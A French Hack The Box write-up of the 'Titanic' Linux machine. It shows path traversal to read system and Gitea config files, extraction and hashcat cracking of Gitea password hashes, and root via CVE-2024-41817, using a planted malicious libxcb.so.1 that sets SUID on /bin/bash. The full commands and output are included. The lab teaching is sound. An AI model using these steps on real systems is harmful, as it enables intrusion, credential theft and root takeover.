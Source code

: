 ```yaml
---
title: Titanic - Linux Easy - HTB Writeup 
description:
slug: titanic-htb-writeup-linux-easy
date: 2025-06-21 00:00:00+0000
image: Titanic.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Path traversal
    - Gitea
    - ImageMagick
    - CVE-2024-41817
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Résumé
User: Path traversal\
Root: Execution de code arbitraire via CVE-2024-41817(ImageMagick).

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier un service web sur le port 80 et SSH sur le port 22.

{{< highlight go "hl_lines=1 3 7" >}}
nmap -Pn -p 80,22 10.129.175.139 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
{{< /highlight >}}

## Utilisateur
### Path traversal

En explorant `titanic.htb`, on remarque que si l'on soumet le formulaire de booking, un fichier contenant nos éléments de réservation au format JSON est téléchargé.\
![](Titanic-web.png)
{{< highlight go "hl_lines=1" >}}
$ cat 5a41afb2-469c-4d75-8faf-4c1b70d398be.json | jq .
{
  "name": "test",
  "email": "test@test.com",
  "phone": "test-01",
  "date": "2025-06-18",
  "cabin": "Deluxe"
}
{{< /highlight >}}
Côté burp, le paramètre `ticket` via `/download` permet de spécifier le fichier à télécharger.\
![](Burp-ticket.png)\
L'absence de controle ou de validation sur ce paramètre nous permet de lire des fichiers sur la machine.\
Ce path traversal, nous permet de récupérer les informations suivantes:\
`/etc/passwd` nous indique l'existence de l'utilisateur `developer`.\
`/etc/hosts` nous permet de récupérer un nouveau sous-domaine, `dev`.
![](Burp-LFI1.png)\
![](Burp-LFI2.png)

### Gitea
Pour l'instant, on ne peut pas aller plus loin, explorons `dev.titanic.htb`.\
On trouve une instance de [Gitea](https://about.gitea.com/), un outil de versionning auto-herbergé utilisant git.\
![](Gitea-1.png)\
En explorant les repo accessibles publiquement, on trouve `docker-config`et `flask-app`.\
![](Gitea-2.png)\
Dans le repo `docker-config`, on trouve des identifiants `MySQL` dans `/mysql/docker-compose.yml`.\
Le scan nmap n'a pas permis d'identifier un accès MySQL, on garde ces identifiants de côté.\
![](Gitea-3.png)\
Toujours dans ce même repository, on trouve dans `/gitea/docker-compose.yml`, le chemin vers un volume.\
![](Gitea-volume.png)\
En utilisant ce chemin, le path traversal précédemment trouvé et la documentation de Gitea, on peut récupérer le fichier de configuration de Gitea.\
Après plusieurs tentatives, il se situe dans `/home/developer/gitea/data/gitea/conf/app.ini`.\
Dans ce fichier de conf, on trouve le chemin de la `BDD` Gitea.\
![](Gitea-4.png)\
![](Gitea-5.png)\
On passe par le site pour la récupérer.\
En explorant cette base de données avec `sqlite3`, on peut récupérer les hash de `developer` et `administrator`.\
{{< highlight go "hl_lines=1" >}}
$ sqlite3 gitea.db                                                                                                               
...
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
{{< /highlight >}}
Les hashs sont au format PBKDF2 et peuvent être convertis à l’aide de [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000) pour être compatibles avec Hashcat et ensuite casser le mot de passe du compte `developer`.
{{< highlight go "hl_lines=1 6" >}}
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=

$ hashcat -a 0 -m 10900 hash /usr/share/wordlists/rockyou.txt
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
{{< /highlight >}}

On l'utilise pour se connecter via SSH à la machine.
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh developer@titanic.htb
...
developer@titanic:~$ ls
gitea  mysql  user.txt
developer@titanic:~$ cat user.txt
e85d89a008cff72094f40882eb2f7d9b
{{< /highlight >}}

## Root
### CVE-2024-41817(ImageMagick)
Une fois connecté en SSH, on remarque le script `identify_images.sh` dans le dossier `/opt/scripts/`.
{{< highlight go "hl_lines=1 24" >}}
developer@titanic:/opt$ tree .
.
├── app
│   ├── app.py
│   ├── static
│   │   ├── assets
│   │   │   └── images
│   │   │       ├── entertainment.jpg
│   │   │       ├── exquisite-dining.jpg
│   │   │       ├── favicon.ico
│   │   │       ├── home.jpg
│   │   │       ├── luxury-cabins.jpg
│   │   │       └── metadata.log
│   │   └── styles.css
│   ├── templates
│   │   └── index.html
│   └── tickets
├── containerd  [error opening dir]
└── scripts
    └── identify_images.sh

8 directories, 10 files

developer@titanic:/opt$ cat scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
{{< /highlight >}}
Cette commande va identifier le format et caractéristiques des fichiers finissant par `.jpg` dans `/opt/app/static/assets/images/` et les stocker dans `/opt/app/static/assets/metadata.log`.\
On remarque que le timestamp de metadata.log est actualisé chaque minute, le script appartient à root donc susceptible d'être lancé par une tâche cron.\
Les commandes `truncate`, `find`, `xargs` ne sont pas exploitables ici. `Imagemagick` étant un outil utilisé dans des CTF dans ses versions vulnérables, on cherche des CVE associées à sa version, la `7.1.1-35`.
{{< highlight go "hl_lines=1" >}}
developer@titanic:~$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
...
{{< /highlight >}}

On trouve [cet advisory sur Github](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) concernant la `CVE-2024-41817` permettant une execution de code arbitraire sur les versions <= à 7.1.1-35.\
Pour obtenir de l'éxécution de code en tant que root, on va adapter le POC mentionné en modifiant id pour set le SUID sur /bin/bash.
{{< highlight go "hl_lines=1 11 12 13 15 16" >}}
developer@titanic:/tmp$ cat libxcb 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /bin/bash");
    exit(0);
}

developer@titanic:/tmp$ gcc -x c -shared libxcb.c -fPIC -o ./libxcb.so.1
developer@titanic:/tmp$ mv libxcb.so.1 /opt/app/static/assets/images/
developer@titanic:/tmp$ ls -ld /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
developer@titanic:/tmp$ bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
bash-5.1# ls /root
cleanup.sh  images  revert.sh  root.txt  snap
{{< /highlight >}}

## Ressources
> [gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154/files#diff-ccd519555457fa8e0c74b0dc7bd66727216dd446c7bcff8cd5196fe919e2b000)\
> [Advisory Github for CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)